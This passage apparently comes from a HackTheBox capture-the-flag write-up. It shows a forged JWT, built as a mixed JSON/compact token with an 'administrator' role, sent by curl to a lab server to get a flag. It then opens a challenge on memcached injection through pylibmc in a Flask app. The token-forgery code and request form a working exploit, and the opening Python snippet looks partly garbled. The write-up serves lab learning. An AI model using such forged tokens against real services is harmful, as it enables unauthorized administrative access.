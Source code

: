 ```python
jwt = claime__.create()
print(claime__.topic(jwt))
```

I ran the code and got the following payload: 
```
{"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxNDc1MTksImlhdCI6MTcxMDE0MzkxOSwianRpIjoiYmQtcW5GYnBqcUhpbEFSeXN5aGwyUSIsIm5iZiI6MTcxMDE0MzkxOSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiYWRtaW5fdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAxNDc1MTksImlhdCI6MTcxMDE0MzkxOSwianRpIjoiYmQtcW5GYnBqcUhpbEFSeXN5aGwyUSIsIm5iZiI6MTcxMDE0MzkxOSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"s569WtLjeq3NQSI9GXVDfTYJSUrxdEGtCBnxjHnwEa6UWwS6RNfLF-qMjvAc-GiqHzG1Wx1SQd1tsqIqnIF6zz9zXFQaSimFgnYE0HvUwaI_XhzBJA-ZxmrgetgJjbOhKBOopKIXmtUt-LPE2tsB3yr6SJe-C2RvFlTzrgQMDrOtRBJJiXfYne1QI4nnXUFY0XsNXCpKQIe6ELHNmeE-F6Fj5s1AJwUEBwWJNVnmw_s5mVbL1hvIE54e2mJg5VK8PfCLXx4u-ghVRgGDRkUza4UpgM8nrSmTj5d40iREyz9M6PDvi0TFhuVvlQStrpz0UId-uyL4-Vwp9UnTOSNBRA"}
```

Note that we need to place the payload as it is as our new JWT token to make it work:
```bash
curl -i "http://94.237.60.112:35242/api/v1/flag" -H 'Authorization: {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxNDc1MTksImlhdCI6MTcxMDE0MzkxOSwianRpIjoiYmQtcW5GYnBqcUhpbEFSeXN5aGwyUSIsIm5iZiI6MTcxMDE0MzkxOSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiYWRtaW5fdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAxNDc1MTksImlhdCI6MTcxMDE0MzkxOSwianRpIjoiYmQtcW5GYnBqcUhpbEFSeXN5aGwyUSIsIm5iZiI6MTcxMDE0MzkxOSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"s569WtLjeq3NQSI9GXVDfTYJSUrxdEGtCBnxjHnwEa6UWwS6RNfLF-qMjvAc-GiqHzG1Wx1SQd1tsqIqnIF6zz9zXFQaSimFgnYE0HvUwaI_XhzBJA-ZxmrgetgJjbOhKBOopKIXmtUt-LPE2tsB3yr6SJe-C2RvFlTzrgQMDrOtRBJJiXfYne1QI4nnXUFY0XsNXCpKQIe6ELHNmeE-F6Fj5s1AJwUEBwWJNVnmw_s5mVbL1hvIE54e2mJg5VK8PfCLXx4u-ghVRgGDRkUza4UpgM8nrSmTj5d40iREyz9M6PDvi0TFhuVvlQStrpz0UId-uyL4-Vwp9UnTOSNBRA"}'
```

And got the flag:
```
HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}
```

### SerialFlow
Analyzing the code of the application, i got that application is using the library `flask-session` with `pylibmc` to store sessions in memcached. 
```python
import pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)
```

At this point, i thougt it would be a plain memcached injection but nothing. Doing a bit of google i found various articles on memcached injection with other libraries from Python. However, i found this one blog on `pylibmc` exploitation: https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/
